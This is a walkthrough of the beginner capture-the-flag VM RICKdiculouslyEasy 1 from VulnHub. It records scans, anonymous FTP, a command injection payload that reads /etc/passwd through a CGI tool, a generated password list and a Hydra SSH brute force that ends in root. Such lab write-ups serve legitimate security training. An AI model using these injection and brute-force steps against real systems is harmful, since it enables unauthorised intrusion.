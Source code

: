 ## RICKdiculouslyEasy 1 VulnHub VM walkthrough

RICKdiculouslyEasy 1 by https://twitter.com/sayli_ambure

Link: https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/

```
This is a fedora server vm, created with virtualbox.
It is a very simple Rick and Morty themed boot to root.
There are 130 points worth of flags available (each flag has its points recorded with it), you should also get root.
It's designed to be a beginner ctf, if you're new to pen testing, check it out!
```

## Solution

#### 1. Sudo Netdiscover
![](Assets/1.PNG)
> IP address: 192.168.1.10

#### 2. Port scan: Nmap -sC -sV -Pn -A -p- 192.168.1.10
![](Assets/2.PNG)
![](Assets/2.1.PNG)
> 21 -> ftp -> vsftpd 3.0.3 -> anonymous

> 22 -> ssh

> 80 -> Apache httpd 2.4.27

> 9090 -> Cockpit webservice
  
> 13337 -> unknown -> flag (10 pt) => total 10 points
  
> 22222 -> ssh -> OpenSSH 7.5 (protocol 2.0)
  
> 60000 > unknown

#### 3. Nikto: Nikto -h 192.168.1.10
![](Assets/3.PNG)
> Passwords/ directory

> Icons/ directory

#### 4. Browser > http://192.168.1.10/passwords/
![](Assets/04.PNG)
> FLAG.txt

> passwords.html

#### 5. Browser > http://192.168.1.10/passwords/FLAG.txt
![](Assets/4.PNG)
> Got Flag (10 pt) = total points 20

#### 6. Browser > http://192.168.1.10/passwords.html page source code
![](Assets/6.PNG)
> password -> winter

#### 7. Browser > http://192.168.1.10/icons/
![](Assets/7.PNG)
> nothing special other than directory listing

#### 8. Browser > http://192.168.1.10/robots.txt
![](Assets/11.PNG)
> Found /cgi-bin/root_shell.cgi

> Found /cgi-bin/tracertool.cgi

#### 9. Browser > view-source:http://192.168.1.10/cgi-bin/root_shell.cgi
![](Assets/12.PNG)
> Nothing useful

#### 10. Browser > http://192.168.1.10/cgi-bin/tracertool.cgi
![](Assets/13.PNG)
![](Assets/14.PNG)
> Vulnerable to command injection

![](Assets/15.PNG)
> cat command doesn't work. Can use 'more', 'less','head' or 'tail' instead

#### 11. Payload -> ; more /etc/passwd
![](Assets/16.PNG)
> Note users 'morty', 'ricksanchez' and 'summer'

#### 12. Ftp 192.168.1.10 > anonymous:anonymous 
![](Assets/8.PNG)
> logged in

![](Assets/9.PNG)
> ftp://192.168.1.10 -> Flag.txt (10 pt) => total 30 points

#### 13. ssh 192.168.1.10 22
![](Assets/17.PNG)
> Not accessible

#### 14. Browser > http://192.168.1.10:9090
![](Assets/18.PNG)
> Got flag (10 pt) => total 40 points

#### 15. Try winter password for users found in step 11 via SSH on 22222 port
![](Assets/19.PNG)
> Didn't work

![](Assets/20.PNG)
> Worked for user 'Summer'

> Got flag (10 pt) => total 50 points
![](Assets/21.PNG)
> password for unzipping journal.txt.zip is in safe_password.jpg

![](Assets/22.PNG)
> Pull jpg file in host machine

![](Assets/23.PNG)
> Got safe password

![](Assets/24.PNG)
> Got Flag (20 pt) => total 70 points

![](Assets/25.PNG)
![](Assets/26.PNG)
> Used flag in journal.txt as argument for safe

> Got next flag (20 pt) => total 90 points

> Got Pattern for RickSanchez password

#### 16. Create python script for all possible password combinations using the clue to feed Hydra:
```
def main():
    LETTERS = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
    DIGITS = '0123456789'
    BAND_WORDS = ['The', 'Flesh', 'Curtains']
    with open('rickpwd.txt', 'w') as f:
        for letter in LETTERS:
            for digit in DIGITS:
                for word in BAND_WORDS:
                    f.write('{}{}{}\n'.format(letter, digit, word))
        f.flush()
if __name__ == '__main__':
    main()
```
> rickpwd.txt created

#### 17. Hydra -l RickSanchez -P rickpwd.txt 192.168.1.10 ssh -s 22222
![](Assets/27.PNG)
> Password for RickSanchez user > P7Curtains

#### 18. ssh RickSanchez@192.168.1.10 -p 22222
![](Assets/28.PNG)
![](Assets/29.PNG)
> Got root and Flag (30 pt) => total 120 points

#### 19. Analyzing remaining ports: telnet 192.168.1.10 13337
![](Assets/30.PNG)
> Flag already found

#### 20. nc 192.168.1.10 60000
![](Assets/31.PNG)
> Got Flag (10 pt) => total 130 points

> Got all 130/130 points and owned root.
